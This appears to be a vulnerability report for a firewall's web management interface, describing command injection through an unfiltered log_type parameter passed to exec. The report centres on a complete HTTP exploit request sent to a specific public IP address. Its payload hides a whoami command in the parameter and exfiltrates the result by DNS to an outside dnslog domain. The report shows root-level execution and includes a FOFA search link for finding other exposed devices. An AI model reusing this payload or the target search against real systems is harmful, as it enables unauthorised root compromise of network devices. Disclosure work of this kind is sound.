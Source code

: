 In `webui/modules/log/fw_security.mds` after accepting the log_type parameter, without any filtering, it is directly spliced into the $table variable, and passed into exec, resulting in code execution.
![image](https://github.com/night-0p/anh/assets/54882616/d22c2473-c774-4232-b709-513dd3f40d31)
test steps:   
1，First obtain a dnslog domain name  through https://dig.pm/   
2，send exp:   
```
GET /webui/?g=log_fw_export&log_type=%26/bin/?ing${IFS}`whoami`.aad9181f4b.ipv6.1433.eu.org. HTTP/1.1
Host: 202.60.226.161
Cookie: USGSESSID=97ee993147299f7a38dab171b08fed44
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
The following is the result of executing whoami. root authority.
<img width="1374" alt="image" src="https://github.com/night-0p/anh/assets/54882616/0d1d269d-3224-4dc8-9c7f-d8d9c6290305">
this Website fingerprinting:
https://fofa.info/result?qbase64=YXBwPSLlronmgZLkv6Hmga8t5piO5b6h5a6J5YWo572R5YWzIg%3D%3D this version:
<img width="872" alt="image" src="https://github.com/night-0p/anh/assets/54882616/1f7091b4-b4b9-415e-982a-60e07b219f82">

